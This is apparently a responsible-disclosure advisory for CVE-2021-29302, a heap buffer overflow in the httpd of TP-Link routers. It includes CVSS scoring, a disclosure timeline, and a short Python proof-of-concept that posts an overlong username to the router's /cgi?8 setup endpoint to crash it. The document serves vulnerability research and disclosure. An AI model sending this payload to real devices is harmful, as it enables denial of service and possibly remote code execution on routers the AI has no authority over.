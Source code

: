 # Buffer 0verflow in TP-Link Devices

## Overview

CVE ID: CVE-2021-29302

Type: Buffer overflow

Vendor: TP-LINK (https://www.tp-link.com)

Products: WiFi Router, such as TL-WR802N(US), Archer_C50v5_US, etc.

Version: V4_200 <= 2020.06

## Severity

**High** 8.1 CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H

| CVSS3.1             | Score     | Detail                                                       |
| ------------------- | --------- | ------------------------------------------------------------ |
| ATTACK VECTOR       | Network   | Connect the router through the network                       |
| ATTACK COMPLEXITY   | High      | It is necessary to use carefully constructed messages to attack when the  router has not set a password |
| PRIVILEGES REQUIRED | None      | No permissions are required                                  |
| USER  INTERACTION   | None      | No need for users to click                                   |
| SCOPE               | Unchanged | Null                                                         |
| CONFIDENTIALITY     | High      | RCE                                                          |
| INTEGRITY           | High      | RCE                                                          |
| AVAILABILITY        | High      | RCE                                                          |

## Description

There is a buffer overflow when HTTP body message is parsed by httpd  process, which may lead to remote code execution. For example, When we set the router password for the first time, the http daemon did not verify the external http message. If we transmit a long user name or password, it will cause the httpd process heap space to overflow.

![burpsuite](pictures/burpsuite.png)

The instruction where the error occurred is in the http binary

![code](pictures/code.png)

Crash log

![crash](pictures/crash.png)

## How to Reproduce (POC)

It is easy to reproduce this problem.

```python
# Only after resetting the router or using the router for the first time, can the script work effectively!
import requests

headers = {
	"Host": "192.168.0.1",
	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
	"Accept": "*/*",
	"Accept-Language": "en-US,en;q=0.5",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "text/plain",
	"Content-Length": "78",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/"
}

payload = "a" * 512 + "b" * 1024
formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=lys123\r\n".format(payload)
 
proxies = {
	"http": "http://127.0.0.1:8080",
}

url = "http://192.168.0.1/cgi?8"

response = requests.post(url, data=formdata, headers=headers, proxies=proxies)
print response.text
```

## Disclosure Timeline

- 14-Mar-2021 Discoverd the vulnerability
- 15-Mar-2021 Responsibly disclosed vulnerability to vendor
- 19-Mar-2021 Vendor Acknowledged the disclosure & Vendor provided software build to verify the issue
- 24-Mar-2021 Requested for CVE-ID assignment
- 29-Mar-2021 CVE-ID Assigned
- 9-Apr-2021 Update a CVE Record
